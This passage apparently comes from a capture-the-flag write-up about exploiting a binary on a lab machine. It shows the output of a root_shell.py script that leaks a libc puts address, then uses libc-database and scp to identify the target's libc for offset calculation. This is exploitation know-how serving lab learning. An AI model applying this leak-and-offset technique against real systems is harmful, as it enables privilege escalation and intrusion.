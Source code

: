 
When I run it, I get the leaked address:

    
    
    root@kali# python root_shell.py
    [+] Connecting to 10.10.10.139 on port 22: Done
    [*] margo@10.10.10.139:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Starting remote process 'garbage' on 10.10.10.139: pid 1900
    [+] Leaked puts address: 0x7fd75a5239c0
    

### Collect Offsets

#### get libc

Since I already have a shell, I can go on box and check libc and get the
version and offsets from there. Another alteriative is to use a tool I wanted
to highlight, [libc database,](https://github.com/niklasb/libc-database) which
is useful for a case where you can get a leak, but perhaps don’t already have
a low priv shell to get the libc version.

I know the address of the leak from the previous run. I’ll feed the low three
nibbles into the database:

    
    
    root@kali:/opt/libc-database# ./find puts 9c0
    http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
    archive-old-glibc (id libc6_2.3.6-0ubuntu20_i386)
    

It returns two possible libc version. Since I believe this is a x64 host, I’ll
use the first one. I can get other offsets from the db, but I can also just
download a copy:

    
    
    root@kali:/opt/libc-database# ./download libc6_2.27-3ubuntu1_amd64
    Getting libc6_2.27-3ubuntu1_amd64
      -> Location: http://mirrors.kernel.org/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb
      -> Downloading package
      -> Extracting package
      -> Package saved to libs/libc6_2.27-3ubuntu1_amd64
    

I can show it’s the same one as target:

    
    
    root@kali:/opt/libc-database# scp margo@10.10.10.139:/lib/x86_64-linux-gnu/libc.so.6 /tmp/
    margo@10.10.10.139's password:
    libc.so.6                                        100% 1983KB   1.0MB/s   00:01    
    
